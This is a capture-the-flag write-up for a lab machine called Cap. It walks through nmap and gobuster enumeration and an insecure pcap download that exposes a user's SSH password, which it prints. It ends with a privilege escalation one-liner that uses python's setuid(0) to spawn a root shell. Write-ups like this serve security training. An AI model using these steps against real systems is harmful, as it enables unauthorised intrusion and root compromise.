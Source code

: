 # Cap

- Target Machine: 10.10.10.245

## Enumeration

### nmap scan

```bash
# Nmap 7.92 scan initiated Tue Sep  7 16:20:43 2021 as: nmap -sC -sV -oN nmap/initial.log 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.050s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    gunicorn
|_http-server-header: gunicorn
| fingerprint-strings: 
|   FourOhFourRequest: 
|     HTTP/1.0 404 NOT FOUND
|     Server: gunicorn
|     Date: Tue, 07 Sep 2021 14:35:08 GMT
|     Connection: close
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 232
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 3.2 Final//EN">
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   GetRequest: 
|
```

### Gobuster scan

```bash
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17373]
/netstat              (Status: 200) [Size: 92406]
```

### Accessing the machine

In the nmap scan we can see that the target machine is running HTTP, SSH and FTP. By checking the machine website, we get logged in as the user Nathan on an admin dashboard containing some links to the sub-directories `/netstat`, containing some data regarding PCAP captures, and `/capture`, a page that runs a PCAP scan for 5 seconds and then gives out the result, redirecting to the page `/data/{NUMBER}`.

If we try to change the number given as a URL parameter to 0, we could access the data of the first scan runned, download it and open it in Wireshark. Once we open the file, we can scroll through it to find the login credentials `nathan : Buck3tH4TF0RM3!`. We can now SSH into the machine as nathan and get the user flag.

## Priviledge escalation

If we look into the `/var/www/html` folder, we can look through the source code of `app.py`, finding a peculiar comment:

```py
path = os.path.join(app.root_path, "upload", str(pcapid) + ".pcap")
ip = request.remote_addr
# permissions issues with gunicorn and threads. hacky solution for now.
#os.setuid(0)
#command = f"timeout 5 tcpdump -w {path} -i any host {ip}"
command = f"""python3 -c 'import os; os.setuid(0); os.system("timeout 5 tcpdump -w {path} -i any host {ip}")'"""
os.system(command)
#os.setuid(1000)
```

As we can see, the program temporarly changes the uid permissions using the method `os.setuid(0)`, giving the program root priviledges. By running `ls -la`, we can see that nathan is the owner of this file, meaning he has enough permissions to run this python script and the setuid method.

We can exploit this by running our own python script using setuid and spawning a shell as root:

```bash
-bash-5.0$ python3.8 -c "import os; os.setuid(0); os.system('bash')"

bash-5.0# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)

bash-5.0# 
```

The root flag is in the root folder.
